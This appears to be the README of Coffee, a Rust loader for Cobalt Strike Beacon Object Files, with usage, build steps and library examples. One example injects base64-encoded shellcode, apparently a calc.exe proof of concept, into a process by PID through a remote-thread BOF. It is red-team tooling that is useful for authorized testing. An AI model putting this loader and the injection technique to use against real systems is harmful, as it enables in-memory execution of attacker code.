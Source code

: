 # Coffee

Coffee is a custom implementation of the original Cobalt Strike's [beacon_inline_execute](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics_aggressor-scripts/as-resources_functions.htm#beacon_inline_execute). It is written in Rust and supports most of the features of the Cobalt Strike compatibility layer. Coffee is structured so it can be used as a library in other projects too.

The original blog post can be found here: <https://labs.hakaioffsec.com/coffee-a-coff-loader-made-in-rust/>

## Usage

```bash
$ coffee.exe -h
Coffee: A COFF loader made in Rust

Usage: coffee.exe [OPTIONS] --bof-path <BOF_PATH> [-- <ARGS>...]

Arguments:
  [ARGS]...  Arguments to the BOF passed after the "--" delimiter, supported types are: str, wstr, int, short, bin

Options:
  -b, --bof-path <BOF_PATH>      Path to the Beacon Object File (BOF)
  -e, --entrypoint <ENTRYPOINT>  The entrypoint name to execute in case of a custom entrypoint name [default: go]
  -v, --verbosity <VERBOSITY>    Verbosity level, 0 = ERROR, 1 = WARN, 2 = INFO, 3 = DEBUG, 4 = TRACE [default: 0]
  -h, --help                     Print help
  -V, --version                  Print version
```

### Arguments

Arguments for the BOF can be passed after the `--` delimiter. Each argument must be prefixed with the type of the argument followed by a colon (`:`). The following types are supported:

- `str` - A null-terminated string
- `wstr` - A wide null-terminated string
- `int` - A signed 32-bit integer
- `short` - A signed 16-bit integer
- `bin` - A base64-encoded binary blob

## Examples

Using the `dir.x64.o` BOF from the [trustedsec/CS-Situational-Awareness-BOF](https://github.com/trustedsec/CS-Situational-Awareness-BOF) repository and passing arguments to the BOF:

```bash
coffee.exe --bof-path .\dir.x64.o -- wstr:"C:\\Windows\\System32"
```

Using the `ntcreatethread.x64.o` BOF from the [trustedsec/CS-Remote-OPs-BOF](https://github.com/trustedsec/CS-Remote-OPs-BOF) repository and passing a PID and the shellcode to execute as base64-encoded binary data.

```bash
coffee.exe --bof-path .\ntcreatethread.x64.o -- int:1337 bin:/EiD5PDowAAAAEFRQVBSUVZIMdJlSItSYEiLUhhIi1IgSItyUEgPt0pKTTHJSDHArDxhfAIsIEHByQ1BAcHi7VJBUUiLUiCLQjxIAdCLgIgAAABIhcB0Z0gB0FCLSBhEi0AgSQHQ41ZI/8lBizSISAHWTTHJSDHArEHByQ1BAcE44HXxTANMJAhFOdF12FhEi0AkSQHQZkGLDEhEi0AcSQHQQYsEiEgB0EFYQVheWVpBWEFZQVpIg+wgQVL/4FhBWVpIixLpV////11IugEAAAAAAAAASI2NAQEAAEG6MYtvh//Vu+AdKgpBuqaVvZ3/1UiDxCg8BnwKgPvgdQW7RxNyb2oAWUGJ2v/VY2FsYy5leGUA
```

## Usage as library

```bash
cargo add coffee-ldr
```

Coffee can be used as a library in other projects. The following example shows how to use Coffee to load a BOF and execute the BOF:

```rust
use coffee_ldr::loader::Coffee;

fn main() {
    let whoami_bof: [u8; 6771] = [
        0x64, 0x86, 0x07, 0x00, 0x00, 0x00, 0x00, 0x00, 0x0A, 0x14, 0x00, 0x00, 0x33, 0x00, 0x00,
        ...
    ];

    let _ = Coffee::new(&whoami_bof).unwrap().execute(None, None, None);
}
```

The example above will execute the BOF passed as an array of bytes and show the output in console.

The detailed documentation can be found at: <https://docs.rs/coffee-ldr/latest/coffee_ldr/loader/struct.Coffee.html>

## Building from source

1. Install Rust from <https://rustup.rs/>
2. Clone the repository
3. Build the project using

```bash
cargo build --release
```

## License

Coffee is licensed under the GNU GPLv3 license. See [LICENSE](LICENSE) for more information.

## Contributing

Pull requests are welcome. Please open an issue first to discuss what you would like to change.

## References

Thanks to the amazing people who have written about COFF loaders and helped me understand the format:

- <https://github.com/trustedsec/COFFLoader>
- <https://github.com/Cracked5pider/CoffeeLdr>
- <https://github.com/yamakadi/ldr>
- <https://www.trustedsec.com/blog/coffloader-building-your-own-in-memory-loader-or-how-to-run-bofs/>
- <https://0xpat.github.io/Malware_development_part_8/>
- <https://otterhacker.github.io/Malware/CoffLoader.html>
- <https://signal-labs.com/trainings/offensive-tool-development/>
- <https://learn.microsoft.com/en-us/windows/win32/debug/pe-format#coff-file-header-object-and-image>
- <https://blog.cloudflare.com/how-to-execute-an-object-file-part-1/>
